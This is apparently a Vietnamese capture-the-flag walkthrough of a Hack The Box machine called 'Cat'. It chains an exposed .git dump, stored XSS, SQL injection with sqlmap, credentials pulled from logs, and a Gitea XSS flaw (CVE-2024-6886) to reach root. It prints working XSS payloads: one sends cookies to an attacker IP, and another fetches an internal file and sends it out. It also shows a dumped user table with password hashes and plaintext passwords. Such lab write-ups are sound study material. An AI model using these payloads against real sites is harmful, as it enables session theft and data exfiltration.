

Quét các cổng và dịch vụ trên máy chủ đích có địa chỉ 10.10.11.53
```bash
nmap -sC -sV 10.10.11.53 -oA Cat
``` 


Thêm tên miền cat.htb vào /etc/hosts
```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```


Truy cập vào trang chủ đường dẫn http://cat.htb/


Ta đăng ký tài khoản trang web và đăng nhập vào trang web 


Có chức năng upload ảnh lên website .
Ta tiếp tục quét các thư mục file ẩn của trang web http://cat.htb


Kết quả trả về các đường dẫn nhưng cơ bản đây là đường dẫn các chức năng của trang web.
Ta lựa chọn công cụ dirsearch quét các thư mục , file ẩn với file từ điển  mặc định 
```bash
┌──(root㉿lyquockhanh)-[~]
└─# dirsearch  -u http://cat.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_cat.htb/__25-02-05_20-50-08.txt

Target: http://cat.htb/

[20:50:08] Starting: 
[20:50:22] 403 -  272B  - /.git/                                            
[20:50:22] 200 -   73B  - /.git/description
[20:50:22] 403 -  272B  - /.git/hooks/
[20:50:22] 403 -  272B  - /.git/branches/                                   
[20:50:22] 301 -  301B  - /.git  ->  http://cat.htb/.git/
[20:50:22] 200 -   92B  - /.git/config                                      
[20:50:22] 200 -    7B  - /.git/COMMIT_EDITMSG                              
[20:50:22] 200 -   23B  - /.git/HEAD                                        
[20:50:23] 403 -  272B  - /.git/info/                                       
[20:50:23] 200 -    2KB - /.git/index                                       
[20:50:23] 200 -  240B  - /.git/info/exclude
[20:50:23] 301 -  311B  - /.git/logs/refs  ->  http://cat.htb/.git/logs/refs/
[20:50:23] 403 -  272B  - /.git/logs/                                       
[20:50:23] 200 -  150B  - /.git/logs/HEAD
[20:50:23] 301 -  317B  - /.git/logs/refs/heads  ->  http://cat.htb/.git/logs/refs/heads/
[20:50:23] 200 -  150B  - /.git/logs/refs/heads/master                      
[20:50:23] 403 -  272B  - /.git/objects/                                    
[20:50:23] 403 -  272B  - /.git/refs/                                       
[20:50:23] 301 -  312B  - /.git/refs/heads  ->  http://cat.htb/.git/refs/heads/
[20:50:23] 200 -   41B  - /.git/refs/heads/master                           
[20:50:23] 301 -  311B  - /.git/refs/tags  ->  http://cat.htb/.git/refs/tags/
[20:50:24] 403 -  272B  - /.ht_wsr.txt                                      
[20:50:24] 403 -  272B  - /.htaccess.bak1                                   
[20:50:24] 403 -  272B  - /.htaccess.orig                                   
[20:50:24] 403 -  272B  - /.htaccess.sample                                 
[20:50:24] 403 -  272B  - /.htaccess.save
[20:50:24] 403 -  272B  - /.htaccess_extra                                  
[20:50:24] 403 -  272B  - /.htaccess_sc
[20:50:24] 403 -  272B  - /.htaccessOLD
[20:50:24] 403 -  272B  - /.htaccess_orig
[20:50:24] 403 -  272B  - /.htaccessBAK
[20:50:24] 403 -  272B  - /.html                                            
[20:50:24] 403 -  272B  - /.htaccessOLD2
[20:50:24] 403 -  272B  - /.htm                                             
[20:50:24] 403 -  272B  - /.htpasswd_test                                   
[20:50:24] 403 -  272B  - /.httr-oauth                                      
[20:50:24] 403 -  272B  - /.htpasswds                                       
[20:50:28] 403 -  272B  - /.php                                             
[20:50:42] 302 -    1B  - /admin.php  ->  /join.php                         
[20:51:13] 200 -    1B  - /config.php                                       
[20:51:17] 301 -  300B  - /css  ->  http://cat.htb/css/                     
[20:51:34] 301 -  300B  - /img  ->  http://cat.htb/img/                     
[20:51:43] 302 -    0B  - /logout.php  ->  /                                
[20:52:11] 403 -  272B  - /server-status                                    
[20:52:11] 403 -  272B  - /server-status/                                   
[20:52:29] 403 -  272B  - /uploads/                                         
[20:52:29] 301 -  304B  - /uploads  ->  http://cat.htb/uploads/     
```


Ta tìm thấy các đường dẫn thư mục file .git  . 
Tôi thấy thư mục .git. Thư mục .git thường chứa thông tin nhạy cảm như lịch sử cam kết, mã nguồn… 
Tôi sử dụng công cụ git-dumper, giúp tự động trích xuất các kho lưu trữ .git. Công cụ này kiểm tra xem danh sách thư mục có được bật hay không và tải xuống đệ quy nội dung .git.
```bash
./git_dumper.py http://cat.htb/.git /root/Documents/HTB/Cat/Git
```


Xem cấu trúc cây của thư mục Git chứa tệp .git đã tải xuống
```bash
tree .
```


Phân tích source code
Trong file join.php

Lấy thông tin username , email, password từ form đăng ký , thông tin username ,email , password chưa được khử trùng  khi đưa vào lệnh sql  để thực thi lưu dữ liệu vào CSDL .
Thực hiện câu lệnh sql đang sử dụng hàm execute() để thực thi 

Dữ liệu trong loginForm thì thông tin loginUsername và loginPassword cũng không được khử trùng trước khi đưa vào câu lệnh sql để lấy ra thông tin của người dùng dựa theo tên username.
Trong file admin.php

Nếu ta có được session của axel thì có thể vào được trang /admin.php

Trong file view_cat.php


Cách khai thác : Ta có thể chèn lợi dụng lỗ hổng XSS Store để lấy được cookie của admin .Sau khi ta lấy được cookie admin thì có thể truy cập vào trang /admin.php
Payload XSS ta có thể chèn vào username đăng ký và payload sẽ thực thi khi admin click vào xem file ảnh ta tải lên 
Payload sử dụng khai thác XSS 
```bash

```



Tải ảnh để vote.


Admin click vào file vote mà cookie được gửi về máy .


Kết quả trả về là  cookie của admin .
Ta thay đổi cookie của người dùng sang cookie admin để truy cập được vào giao diện admin


Truy cập thành công vào trang chủ của admin.


Dựa vào source code view_cat.php Ta phát hiện lỗ hổng SQL injection ở /accept_cat
Ta dùng ký tự đặc biệt kết quả trả về 500 lỗi xử lý trên máy chủ 

Biến bất thường thành bình thường 


Ta sử dụng công cụ sqlmap để khai thác lỗ hổng trên trường catName của yêu cầu POST /accep_cat.php.


Ta khai thác thành công username và password trong CSDL của website.


```bash
---------+-------------------------------+-----------------------------------------+-------------------------------------------------------------------------------------+
| user_id | email                         | password                                | username                                                                            |
+---------+-------------------------------+-----------------------------------------+-------------------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f        | axel                                                                                |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c        | rosa                                                                                |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad        | robert                                                                              |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe        | fabian                                                                              |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86        | jerryson                                                                            |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8        | larry                                                                               |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6          | royer                                                                               |
| 8       | peterCC456@gmajp/cpp          | e41ccefa439fc454f7eadbf1f139ed8a        | peter                                                                               |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565        | angel                                                                               |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad        | jobert                                                                              |
| 11      | ✋🏿 💪🏿 👐🏿 🙌🏿 👏🏿 🙏🏿  | 1610838743cc90e3e4fdda748282d9b8 (dave) | dave                                                                                |
| 12      | khanh123@gmail.com            | 202cb962ac59075b964b07152d234b70 (123)  |                |
| 13      | a@a.maik                      | bc6680c1a0d13d778d73c59185b1e412 (wan)  | "><script>document.location='http://10.10.14.93:8000/?a='+document.cookie;</script> |
+---------+-------------------------------+-----------------------------------------+------------------------------------------------------------------------------------
```

Ta tiếp tục sử dụng CrackStation để tiếp tục crack mã băm còn lại và crack được password của rosa : soyunaprincesarosa 


Ta sử dụng tk : rosa và password : soyunaprincesarosa để kết nối từ xa đến máy chủ đích
```bash
ssh rosa@cat.htb
```


Ta tìm file user.txt và kết quả không tìm thấy file


Đọc file /etc/passwd để kiểm tra người dùng hệ thống 


Ta tìm được 2 người dùng khác là jobert , axel , git
Khả năng trong máy chủ mục tiêu thì tài khoản đăng nhập vào dịch vụ http cổng 80  giống tài khoản đăng nhập vào hệ thống ta thử kiểm tra file log ghi nhật ký đăng nhập 
```bash
find / -name *.log 2> /dev/null
```


Tìm được đường dẫn log lưu thông tin kết nối là /var/log/apache2/access.log
Đọc file access.log đưa ra màn hình nội dung chứa từ khóa 302
```bash
cat /var/log/apache2/access.log | grep 302
```


Ta tìm được username=axel và password= aNdZwgC4tI9gnVXv_e3Q
Ta dùng sudo để chuyển người dùng k được nên ta sẽ kết nối thông qua giao thức ssh với username = axel

Tìm thấy file user.txt


Kiểm tra quyền axel trên hệ thống  không mang lại thông tin giá trị


Kiểm tra dịch vụ  đang chạy trên hệ thống 


Cổng 3000 là dịch vụ web đang mở nội bộ


Tạo đường hầm ssh tới dịch vụ cổng 3000

```bash
ssh axel@cat.htb -L 3000:localhost:3000
```


Truy cập vào trang web tìm được phiên bản ứng dụng của trang web là  Gitea Version : 1.22.0


Tra cứu ta tìm được lỗ hổng CVE 2024-6886 liên quan đến phiên bản 
Cách khai thác CVE


Ta sử dụng tài khoản axel đăng nhập được vào trang web 


Tạo 1 .git


Ta click vào XSS test thì câu lệnh js được thực thi
 .

Nhưng ta vẫn chưa thấy được thông tin nào để áp dụng XSS nâng quyền root.

Nhìn lại ta phát hiện 1 dòng You have mail khi kết nối từ xa vào hệ thống với người dùng axel.


•	Có đường dẫn nội bộ http://localhost:3000/administrator/Employee-management/, gợi ý rằng hệ thống đang chạy trên một server nội bộ.
•	Một file README chứa thông tin quan trọng có thể được truy cập tại http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md

Hướng khai thác : Ta tạo 1 payload XSS để lấy dữ liệu từ file README.md bằng cách để administrator  click vào payload XSS  để lấy dữ liệu 

```bash
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.16.47:293/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```


Gửi mail cho admin để admin kích hoạt payload XSS

```bash
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/Khanh" | sendmail jobert@cat.htb
```


Ta thu được nội dung file README.md đang được mã hóa url

```bash
%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A
```
Giải mã url 


Ta thu được username=”admin” và password=” IKw75eR0MR7CMIxhH0”
Ta lấy thông tin đăng nhập vào hệ thống với quyền root và thu được flag


